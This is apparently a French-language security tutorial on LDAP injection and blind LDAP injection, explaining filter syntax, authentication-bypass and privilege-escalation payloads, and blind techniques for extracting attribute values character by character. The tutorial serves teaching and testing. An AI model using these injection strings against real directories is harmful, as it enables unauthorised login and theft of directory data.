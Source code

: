 # LDAP Injection & Blind LDAP Injection

## <mark style="color:red;">LDAP Injection & Blind LDAP Injection</mark>

### <mark style="color:blue;">📋 Introduction</mark>

#### <mark style="color:green;">Contexte</mark>

Les services LDAP sont des composants clés dans les entreprises, utilisés pour l'authentification et la gestion centralisée des informations. Plus de 50% des vulnérabilités des applications web sont liées à la validation des entrées utilisateur, permettant l'exploitation de techniques d'injection de code.

#### <mark style="color:green;">Problématique</mark>

Lorsque les applications construisent des requêtes LDAP sans valider correctement les entrées utilisateur, les attaquants peuvent manipuler ces requêtes pour accéder à des informations sensibles de l'annuaire LDAP.

***

### <mark style="color:blue;">🔍 Fondamentaux LDAP</mark>

#### <mark style="color:green;">Qu'est-ce que LDAP ?</mark>

**LDAP** (Lightweight Directory Access Protocol) est un protocole pour interroger et modifier des services d'annuaire sur TCP/IP.

#### <mark style="color:green;">Implémentations principales</mark>

* **Microsoft ADAM** (Active Directory Application Mode)
* **OpenLDAP**

#### <mark style="color:green;">Structure des filtres LDAP</mark>

```
Filter = ( filtercomp )
Filtercomp = and / or / not / item
And = & filterlist
Or = | filterlist
Not = ! filter
Item = simple / present / substring
```

#### <mark style="color:green;">Opérateurs disponibles</mark>

* **Logiques** : `&` (AND), `|` (OR), `!` (NOT)
* **Relationnels** : `=`, `>=`, `<=`, `~=`
* **Spéciaux** : `*` (joker), `(&)` (TRUE absolu), `(|)` (FALSE absolu)

#### <mark style="color:green;">Utilisations typiques</mark>

* Contrôle d'accès (vérification login/password)
* Gestion des privilèges
* Gestion des ressources

***

### <mark style="color:blue;">🎯 LDAP Injection Classique</mark>

#### <mark style="color:green;">Principe</mark>

Exploiter les paramètres utilisateur non filtrés pour manipuler les requêtes LDAP et contourner les contrôles de sécurité.

#### <mark style="color:green;">Architecture typique vulnérable</mark>

```
[Client Web] → [Serveur Web + App] → [Serveur LDAP Backend]
```

#### <mark style="color:green;">1️⃣ AND LDAP Injection</mark>

<mark style="color:orange;">**Structure de base**</mark>

```
(&(parameter1=value1)(parameter2=value2))
```

<mark style="color:orange;">**Exemple 1 : Contournement d'authentification**</mark>

**Requête normale :**

```
(&(USER=username)(PASSWORD=password))
```

**Injection :**

* **Entrée** : `username = slisberger)(&))`
* **Requête résultante** : `(&(USER=slisberger)(&))(PASSWORD=Pwd))`
* **Résultat** : Seul le premier filtre est traité : `(&(USER=slisberger)(&))` → **Toujours VRAI**
* **Impact** : Accès sans mot de passe valide

<mark style="color:orange;">**Exemple 2 : Élévation de privilèges**</mark>

**Requête normale :**

```
(&(directory=documents)(security_level=low))
```

<mark style="color:orange;">**Injection :**</mark>

* **Entrée** : `documents)(security_level=*))(&(directory=documents`
* **Requête résultante** : `(&(directory=documents)(security_level=*))(&(directory=documents)(security_level=low))`
* **Résultat** : Affichage de TOUS les documents (tous niveaux de sécurité)

#### <mark style="color:green;">2️⃣ OR LDAP Injection</mark>

<mark style="color:orange;">**Structure de base**</mark>

```
(|(parameter1=value1)(parameter2=value2))
```

**Exemple : Divulgation d'informations**

<mark style="color:orange;">**Requête normale :**</mark>

```
(|(type=printer)(type=scanner))
```

<mark style="color:orange;">**Injection :**</mark>

* **Entrée** : `printer)(uid=*`
* **Requête résultante** : `(|(type=printer)(uid=*))(type=scanner))`
* **Résultat** : Affichage de toutes les imprimantes ET tous les utilisateurs

***

### <mark style="color:blue;">🕵️ Blind LDAP Injection</mark>

#### <mark style="color:green;">Principe</mark>

Extraire des informations par des questions VRAI/FAUX lorsque l'application ne retourne pas de messages d'erreur explicites, mais montre des comportements différents selon le résultat de la requête.

#### <mark style="color:green;">1️⃣ AND Blind LDAP Injection</mark>

<mark style="color:orange;">**Requête de base**</mark>

```
(&(objectClass=printer)(type=Epson*))
```

<mark style="color:orange;">**Injection pour test**</mark>

```
*)(objectClass=*))(& (objectClass=void
```

<mark style="color:orange;">**Requête résultante**</mark>

```
(&(objectClass=*)(objectClass=*))(&(objectClass=void)(type=Epson*))
```

**Résultat** : Le filtre `(objectClass=*)` retourne toujours des objets → **TRUE**

<mark style="color:orange;">**Tests d'inférence**</mark>

```
(&(objectClass=*)(objectClass=users))        → Icône affichée = TRUE
(&(objectClass=*)(objectClass=resources))    → Icône affichée = TRUE
(&(objectClass=*)(objectClass=fakevalue))    → Pas d'icône = FALSE
```

#### <mark style="color:green;">2️⃣ OR Blind LDAP Injection</mark>

<mark style="color:orange;">**Injection pour test**</mark>

```
(|(objectClass=void)(objectClass=void))
```

**Résultat** : Aucun objet retourné → **FALSE**

<mark style="color:orange;">**Tests d'inférence**</mark>

```
(|(objectClass=void)(objectClass=users))      → Icône affichée = TRUE
(|(objectClass=void)(objectClass=fakevalue))  → Pas d'icône = FALSE
```

***

### <mark style="color:blue;">🔬 Techniques d'exploitation avancées</mark>

#### <mark style="color:green;">1️⃣ Découverte d'attributs</mark>

**Objectif** : Identifier les attributs existants dans l'annuaire LDAP

**Exemple avec un objet imprimante :**

{% code fullWidth="true" %}
```
(&(idprinter=HPLaserJet2100)(ipaddress=*))(objectclass=printer))    → FALSE (attribut inexistant)
(&(idprinter=HPLaserJet2100)(department=*))(objectclass=printer))   → TRUE (attribut existe)
```
{% endcode %}

#### <mark style="color:green;">2️⃣ Booleanisation</mark>

**Objectif** : Extraire les valeurs caractère par caractère

**Processus pour extraire "financial" :**

{% code fullWidth="true" %}
```
(&(idprinter=HPLaserJet2100)(department=a*))   → FALSE
(&(idprinter=HPLaserJet2100)(department=f*))   → TRUE
(&(idprinter=HPLaserJet2100)(department=fa*))  → FALSE
(&(idprinter=HPLaserJet2100)(department=fi*))  → TRUE
(&(idprinter=HPLaserJet2100)(department=fin*)) → TRUE
...
```
{% endcode %}

**Pour les valeurs numériques**, utiliser les opérateurs `>=` et `<=`

#### <mark style="color:green;">3️⃣ Réduction du jeu de caractères</mark>

**Objectif** : Réduire le nombre de requêtes en identifiant d'abord les caractères présents

**Technique :**

{% code fullWidth="true" %}
```
(&(idprinter=HPLaserJet2100)(department=*b*))  → FALSE ('b' absent)
(&(idprinter=HPLaserJet2100)(department=*n*))  → TRUE ('n' présent)
(&(idprinter=HPLaserJet2100)(department=*f*))  → TRUE ('f' présent)
(&(idprinter=HPLaserJet2100)(department=*i*))  → TRUE ('i' présent)
...
```
{% endcode %}

**Avantage** : Une fois le jeu de caractères identifié, la booleanisation ne teste que ces caractères

***

